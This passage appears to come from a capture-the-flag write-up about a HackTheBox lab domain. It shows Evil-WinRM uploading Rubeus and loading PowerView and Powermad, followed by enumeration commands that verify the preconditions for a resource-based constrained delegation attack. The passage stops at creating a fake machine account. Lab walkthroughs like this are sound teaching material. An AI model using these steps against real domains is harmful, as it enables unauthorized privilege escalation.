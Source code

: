     *Evil-WinRM* PS C:\programdata> upload /opt/SharpCollection/NetFramework_4.5_x64/Rubeus.exe
    Info: Uploading /opt/SharpCollection/NetFramework_4.5_x64/Rubeus.exe to C:\programdata\Rubeus.exe
                                                                 
    Data: 369320 bytes of 369320 bytes copied
    
    Info: Upload successful!
    
    *Evil-WinRM* PS C:\programdata> . .\PowerView.ps1
    *Evil-WinRM* PS C:\programdata> . .\Powermad.ps1
    

#### Verify Environment

I’ll need to know the administrator on DC, which Bloodhound tells me is
administrator@support.htb:

![image-20220527151617562](https://0xdfimages.gitlab.io/img/image-20220527151617562.png)

I’ll verify that users can add machines to the domain:

    
    
    *Evil-WinRM* PS C:\programdata> Get-DomainObject -Identity 'DC=SUPPORT,DC=HTB' | select ms-ds-machineaccountquota
    
    ms-ds-machineaccountquota
    -------------------------
                           10
    

The quote is set to the default of 10, which is good.

I’ll also need to make sure there’s a 2012+ DC in the environment:

    
    
    *Evil-WinRM* PS C:\programdata> Get-DomainController | select name,osversion | fl
    
    Name      : dc.support.htb
    OSVersion : Windows Server 2022 Standard
    

2022 Standard is great.

Finally, I’ll want to check that the `msds-
allowedtoactonbehalfofotheridentity` is empty:

    
    
    *Evil-WinRM* PS C:\programdata> Get-DomainComputer DC | select name,msds-allowedtoactonbehalfofotheridentity | fl
    
    name                                     : DC
    msds-allowedtoactonbehalfofotheridentity :
    

It is.

#### Create FakeComputer

I’ll use the Powermad `New-MachineAccount` to create a fake computer:

    
    